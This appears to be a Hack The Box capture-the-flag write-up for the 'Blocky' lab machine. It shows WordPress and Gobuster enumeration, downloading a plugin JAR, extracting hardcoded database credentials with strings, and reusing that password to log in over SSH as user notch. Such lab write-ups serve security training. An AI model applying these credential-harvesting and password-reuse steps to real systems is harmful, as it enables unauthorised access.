





# 10 - BlockyCraft


# Wordpress


# Username




# New core plugin




# Gobuster


WPScan couldn't file any plugins other than akismet and yet `/wiki/` mentions that there is a new core plugin. See [06 - WPScan.md]()
Gobuster reveals `/plugins` directory. A quick google search on default wordpress plugins directory points us [here](https://wordpress.stackexchange.com/questions/15933/where-are-plugins-located)

Wordpress plugins are located in

* /wp-content/plugins
* /wp-content/mu-plugins

directories. `/plugins` doesn't seem to be one of the them.


# Plugins



# Download and go through the files
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/blocky/plugins/BlockyCore]
└──╼ $ wget http://10.10.10.37/plugins/files/BlockyCore.jar
┌─[user@parrot]─[10.10.14.18]─[~/htb/blocky/plugins/BlockyCore]
└──╼ $ find . -type f                         
./BlockyCore.jar                      
./META-INF/MANIFEST.MF     
./com/myfirstplugin/BlockyCore.class
┌─[user@parrot]─[10.10.14.18]─[~/htb/blocky/plugins/BlockyCore]                                                                                                                               
└──╼ $ strings ./com/myfirstplugin/BlockyCore.class
com/myfirstplugin/BlockyCore                                                                   
java/lang/Object
sqlHost                                                                                        
Ljava/lang/String;                                                                                                                                                                            
sqlUser
sqlPass
<init>
Code
        localhost
root                                                                        # root
8YsqfCTnvxAUeduzjNSXe22                                                     # password
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```

There is some hardcoded credentials
* root:8YsqfCTnvxAUeduzjNSXe22


# SSH notch

After my first failed attempt I decided to give `notch` a shot
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/blocky]
└──╼ $ ssh -l notch 10.10.10.37
notch@10.10.10.37's password: 
Permission denied, please try again.
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$ 
```